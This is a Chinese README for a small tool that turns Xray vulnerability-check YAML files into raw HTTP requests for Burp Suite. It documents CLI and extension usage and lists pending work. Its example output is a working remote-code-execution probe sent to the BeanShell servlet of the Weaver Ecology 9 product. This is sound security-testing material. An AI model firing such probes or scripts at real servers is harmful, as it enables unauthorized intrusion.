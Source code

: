 # yaml2http

一个将`Xray`的`Poc`转换成`http`请求明文的小工具，便于在`Burp Suite`一类的工具中使用。
与杜老师交流`Poc`存储问题而引出的产物，采用了一个简易版的基于`Xray`的`Poc`标准，它只支持描述`http`协议。目前功能尚不完善，还在开发中...

## Usage

当`Poc`的请求结构中包含不可打印字符时，推荐以插件形式载入`Poc`至`Burp Suite`中使用。

### CLI

运行

```bash
java -jar yaml2http-1.0.jar -p poc-yaml-ecology9-beanshell-rce.yaml
```

输出如下

```http
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36 Edg/104.0.1293.47
Connection: close
Host: localhost
Content-Length: 87

bsh.script=print%2842503*40455%29&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

### Burp Suite Extension

支持在`Burp Suite`中以插件形式进行使用，这种方式可以避免不可打印字符的问题。

使用方式，从`Extender`导入下载或编译的`jar`包

进入`Repeater`页面，鼠标右键打开菜单并选择`Extension -> Yaml Poc Loader -> Import`，并选择需要载入的文件

加载完成后如下

## Todo

* [X] 完成`yaml`解析，读取已支持字段值
* [X] 完成变量定义外的`http`文本转换
* [X] 完成变量定义和表达式解析（已初步完成主体框架，后续补充方法功能即可）
* [ ] 完成`Content-Type`自识别（但`body`数据过段会引起判断失误，推荐`poc`中自行指定）
* [x] 完成变量定义字段其他方法的支持

